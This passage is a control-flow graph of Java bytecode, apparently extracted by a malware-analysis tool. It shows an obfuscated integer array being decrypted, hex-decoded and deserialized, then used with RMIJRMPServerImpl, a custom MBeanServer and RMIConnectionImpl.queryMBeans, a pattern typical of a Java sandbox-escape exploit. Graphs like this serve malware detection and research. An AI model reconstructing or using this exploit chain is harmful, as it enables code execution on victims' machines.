    "load.r $r5"->"push 172";
    "push 172"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 173"
    "load.r $r5"->"push 173";
    "push 173"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 174"
    "load.r $r5"->"push 174";
    "push 174"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 175"
    "load.r $r5"->"push 175";
    "push 175"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 176"
    "load.r $r5"->"push 176";
    "push 176"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 177"
    "load.r $r5"->"push 177";
    "push 177"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 178"
    "load.r $r5"->"push 178";
    "push 178"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 179"
    "load.r $r5"->"push 179";
    "push 179"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 180"
    "load.r $r5"->"push 180";
    "push 180"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 181"
    "load.r $r5"->"push 181";
    "push 181"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 182"
    "load.r $r5"->"push 182";
    "push 182"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 183"
    "load.r $r5"->"push 183";
    "push 183"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 184"
    "load.r $r5"->"push 184";
    "push 184"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 185"
    "load.r $r5"->"push 185";
    "push 185"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 186"
    "load.r $r5"->"push 186";
    "push 186"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 187"
    "load.r $r5"->"push 187";
    "push 187"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 188"
    "load.r $r5"->"push 188";
    "push 188"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 189"
    "load.r $r5"->"push 189";
    "push 189"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 190"
    "load.r $r5"->"push 190";
    "push 190"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 191"
    "load.r $r5"->"push 191";
    "push 191"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 192"
    "load.r $r5"->"push 192";
    "push 192"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 193"
    "load.r $r5"->"push 193";
    "push 193"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 194"
    "load.r $r5"->"push 194";
    "push 194"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 195"
    "load.r $r5"->"push 195";
    "push 195"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 196"
    "load.r $r5"->"push 196";
    "push 196"->"push 18";
    "push 18"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 197"
    "load.r $r5"->"push 197";
    "push 197"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 198"
    "load.r $r5"->"push 198";
    "push 198"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 199"
    "load.r $r5"->"push 199";
    "push 199"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 200"
    "load.r $r5"->"push 200";
    "push 200"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 201"
    "load.r $r5"->"push 201";
    "push 201"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 202"
    "load.r $r5"->"push 202";
    "push 202"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 203"
    "load.r $r5"->"push 203";
    "push 203"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 204"
    "load.r $r5"->"push 204";
    "push 204"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 205"
    "load.r $r5"->"push 205";
    "push 205"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 206"
    "load.r $r5"->"push 206";
    "push 206"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 207"
    "load.r $r5"->"push 207";
    "push 207"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 208"
    "load.r $r5"->"push 208";
    "push 208"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 209"
    "load.r $r5"->"push 209";
    "push 209"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 210"
    "load.r $r5"->"push 210";
    "push 210"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 211"
    "load.r $r5"->"push 211";
    "push 211"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 212"
    "load.r $r5"->"push 212";
    "push 212"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 213"
    "load.r $r5"->"push 213";
    "push 213"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 214"
    "load.r $r5"->"push 214";
    "push 214"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 215"
    "load.r $r5"->"push 215";
    "push 215"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 216"
    "load.r $r5"->"push 216";
    "push 216"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 217"
    "load.r $r5"->"push 217";
    "push 217"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 218"
    "load.r $r5"->"push 218";
    "push 218"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 219"
    "load.r $r5"->"push 219";
    "push 219"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 220"
    "load.r $r5"->"push 220";
    "push 220"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 221"
    "load.r $r5"->"push 221";
    "push 221"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 222"
    "load.r $r5"->"push 222";
    "push 222"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 223"
    "load.r $r5"->"push 223";
    "push 223"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 224"
    "load.r $r5"->"push 224";
    "push 224"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 225"
    "load.r $r5"->"push 225";
    "push 225"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 226"
    "load.r $r5"->"push 226";
    "push 226"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 227"
    "load.r $r5"->"push 227";
    "push 227"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 228"
    "load.r $r5"->"push 228";
    "push 228"->"push 102";
    "push 102"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 229"
    "load.r $r5"->"push 229";
    "push 229"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 230"
    "load.r $r5"->"push 230";
    "push 230"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 231"
    "load.r $r5"->"push 231";
    "push 231"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 232"
    "load.r $r5"->"push 232";
    "push 232"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 233"
    "load.r $r5"->"push 233";
    "push 233"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 234"
    "load.r $r5"->"push 234";
    "push 234"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 235"
    "load.r $r5"->"push 235";
    "push 235"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 236"
    "load.r $r5"->"push 236";
    "push 236"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 237"
    "load.r $r5"->"push 237";
    "push 237"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 238"
    "load.r $r5"->"push 238";
    "push 238"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 239"
    "load.r $r5"->"push 239";
    "push 239"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 240"
    "load.r $r5"->"push 240";
    "push 240"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 241"
    "load.r $r5"->"push 241";
    "push 241"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 242"
    "load.r $r5"->"push 242";
    "push 242"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 243"
    "load.r $r5"->"push 243";
    "push 243"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 244"
    "load.r $r5"->"push 244";
    "push 244"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 245"
    "load.r $r5"->"push 245";
    "push 245"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 246"
    "load.r $r5"->"push 246";
    "push 246"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 247"
    "load.r $r5"->"push 247";
    "push 247"->"push 101";
    "push 101"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 248"
    "load.r $r5"->"push 248";
    "push 248"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 249"
    "load.r $r5"->"push 249";
    "push 249"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 250"
    "load.r $r5"->"push 250";
    "push 250"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 251"
    "load.r $r5"->"push 251";
    "push 251"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 252"
    "load.r $r5"->"push 252";
    "push 252"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 253"
    "load.r $r5"->"push 253";
    "push 253"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 254"
    "load.r $r5"->"push 254";
    "push 254"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 255"
    "load.r $r5"->"push 255";
    "push 255"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 256"
    "load.r $r5"->"push 256";
    "push 256"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 257"
    "load.r $r5"->"push 257";
    "push 257"->"push 16";
    "push 16"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 258"
    "load.r $r5"->"push 258";
    "push 258"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 259"
    "load.r $r5"->"push 259";
    "push 259"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 260"
    "load.r $r5"->"push 260";
    "push 260"->"push 21";
    "push 21"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 261"
    "load.r $r5"->"push 261";
    "push 261"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 262"
    "load.r $r5"->"push 262";
    "push 262"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 263"
    "load.r $r5"->"push 263";
    "push 263"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 264"
    "load.r $r5"->"push 264";
    "push 264"->"push 98";
    "push 98"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 265"
    "load.r $r5"->"push 265";
    "push 265"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 266"
    "load.r $r5"->"push 266";
    "push 266"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 267"
    "load.r $r5"->"push 267";
    "push 267"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 268"
    "load.r $r5"->"push 268";
    "push 268"->"push 103";
    "push 103"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 269"
    "load.r $r5"->"push 269";
    "push 269"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 270"
    "load.r $r5"->"push 270";
    "push 270"->"push 22";
    "push 22"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 271"
    "load.r $r5"->"push 271";
    "push 271"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 272"
    "load.r $r5"->"push 272";
    "push 272"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 273"
    "load.r $r5"->"push 273";
    "push 273"->"push 26";
    "push 26"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 274"
    "load.r $r5"->"push 274";
    "push 274"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 275"
    "load.r $r5"->"push 275";
    "push 275"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 276"
    "load.r $r5"->"push 276";
    "push 276"->"push 96";
    "push 96"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 277"
    "load.r $r5"->"push 277";
    "push 277"->"push 23";
    "push 23"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 278"
    "load.r $r5"->"push 278";
    "push 278"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 279"
    "load.r $r5"->"push 279";
    "push 279"->"push 97";
    "push 97"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 280"
    "load.r $r5"->"push 280";
    "push 280"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 281"
    "load.r $r5"->"push 281";
    "push 281"->"push 17";
    "push 17"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 282"
    "load.r $r5"->"push 282";
    "push 282"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 283"
    "load.r $r5"->"push 283";
    "push 283"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 284"
    "load.r $r5"->"push 284";
    "push 284"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 285"
    "load.r $r5"->"push 285";
    "push 285"->"push 19";
    "push 19"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 286"
    "load.r $r5"->"push 286";
    "push 286"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 287"
    "load.r $r5"->"push 287";
    "push 287"->"push 27";
    "push 27"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 288"
    "load.r $r5"->"push 288";
    "push 288"->"push 20";
    "push 20"->"arraywrite.i";
    "arraywrite.i"->"load.r $r5";
    "push 289"
    "load.r $r5"->"push 289";
    "push 289"->"push 19";
    "push 19"->"arraywrite.i";
    "new java.lang.String"
    "arraywrite.i"->"new java.lang.String";
    "new java.lang.String"->"load.r $r5";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "load.r $r5"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"
    "virtualinvoke <java.io.IOException: void printStackTrace()>"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"
    "goto new javax.management.remote.rmi.RMIJRMPServerImpl"->"new javax.management.remote.rmi.RMIJRMPServerImpl";
    "new javax.management.remote.rmi.RMIJRMPServerImpl"->"store.r $r5";
    "store.r $r5"->"load.r $r5";
    "load.r $r5"->"push 0";
    "push 0"->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "push null"->"store.r r0";
    "goto return"
    "store.r r0"->"goto return";
    "return"
    "goto return"->"return";
    "push null"->"store.r r0";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void <init>(int,java.rmi.server.RMIClientSocketFactory,java.rmi.server.RMIServerSocketFactory,java.util.Map)>"->"load.r $r5";
    "new CusBen"
    "load.r $r5"->"new CusBen";
    "new CusBen"->"dup1.r";
    "specialinvoke <CusBen: void <init>()>"
    "dup1.r"->"specialinvoke <CusBen: void <init>()>";
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"
    "specialinvoke <CusBen: void <init>()>"->"virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>";
    "new javax.management.remote.rmi.RMIConnectionImpl"
    "virtualinvoke <javax.management.remote.rmi.RMIJRMPServerImpl: void setMBeanServer(javax.management.MBeanServer)>"->"new javax.management.remote.rmi.RMIConnectionImpl";
    "new javax.management.remote.rmi.RMIConnectionImpl"->"dup1.r";
    "dup1.r"->"load.r $r5";
    "push \"javasucks\""
    "load.r $r5"->"push \"javasucks\"";
    "push \"javasucks\""->"push null";
    "push null"->"push null";
    "push null"->"push null";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"
    "push null"->"specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>";
    "specialinvoke <javax.management.remote.rmi.RMIConnectionImpl: void <init>(javax.management.remote.rmi.RMIServerImpl,java.lang.String,java.lang.ClassLoader,javax.security.auth.Subject,java.util.Map)>"->"push null";
    "push null"->"load.r r0";
    "load.r r0"->"push null";
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"
    "push null"->"virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>";
    "pop"
    "virtualinvoke <javax.management.remote.rmi.RMIConnectionImpl: java.util.Set queryMBeans(javax.management.ObjectName,java.rmi.MarshalledObject,javax.security.auth.Subject)>"->"pop";
    "pop"->"goto return";
    "virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>"
    "load.r $r5"->"virtualinvoke <java.lang.ClassNotFoundException: void printStackTrace()>";
    "load.r $r5"->"staticinvoke <aefe: java.lang.String decrypt(int[])>";
    "staticinvoke <aefe: byte[] HexDecode(java.lang.String)>"
    "staticinvoke <aefe: java.lang.String decrypt(int[])>"->"staticinvoke <aefe: byte[] HexDecode(java.lang.String)>";
    "store.r r26"
    "staticinvoke <aefe: byte[] HexDecode(java.lang.String)>"->"store.r r26";
    "load.r r26"
    "store.r r26"->"load.r r26";
    "specialinvoke <java.lang.String: void <init>(byte[])>"
    "load.r r26"->"specialinvoke <java.lang.String: void <init>(byte[])>";
    "new java.io.ByteArrayInputStream"
    "specialinvoke <java.lang.String: void <init>(byte[])>"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"store.r $r5";
    "store.r $r5"->"load.r $r5";
    "load.r $r5"->"load.r r26";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "load.r r26"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "new java.io.ObjectInputStream"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "dup1.r"->"load.r $r5";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "load.r $r5"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "checkcast"
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"checkcast";
    "checkcast"->"store.r r0";
    "store.r r0"->"goto new javax.management.remote.rmi.RMIJRMPServerImpl";
}
